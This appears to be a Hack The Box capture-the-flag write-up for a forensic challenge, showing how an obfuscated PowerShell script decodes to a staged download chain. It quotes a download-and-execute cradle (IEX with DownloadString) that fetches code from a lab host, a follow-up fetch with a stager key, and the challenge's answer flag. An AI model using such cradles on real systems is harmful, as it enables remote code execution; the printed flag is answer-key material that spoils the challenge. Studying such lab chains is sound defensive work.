 # 🔍 Forensic – Thorin's Amulet

## Challenge Overview

This forensic investigation involves analyzing an obfuscated PowerShell script, decoding a payload, and tracing staged download commands to uncover a hidden flag.

---

### 🛠 Preparation

To avoid modifying your `/etc/hosts` file, replace the hostname `korp.htb` with the Docker IP:
```
94.237.61.100:37543
```

---

### 🔹 Step 1: Download and Open the `.ps1` Script

Examine the contents of the PowerShell script. You'll find a Base64-encoded string embedded within:

```powershell
"SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
```

---

### 🔹 Step 2: Decode the Base64 String

Use your favorite tool to decode it. It translates to:

```powershell
IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")
```

Replace `korp.htb` with `94.237.61.100:37543` to access it directly.

---

### 🔹 Step 3: Visit the Update URL

Navigate to:

👉 `http://94.237.61.100:37543/update`

This will download a second PowerShell file: `update.ps1`.

---

### 🔹 Step 4: Download the Next Stage Payload

Execute the following PowerShell command to retrieve the final script:

```powershell
Invoke-WebRequest -Uri "http://94.237.61.100:37543/a541a" `
  -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} `
  -Method GET -OutFile a541a.ps1
```

This fetches `a541a.ps1`, which contains the logic to generate the final flag.

---

### 🏁 Flag

```
HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}
```

## Write-Up Credit: kkc123 ```https://ctf.hackthebox.com/user/profile/606424```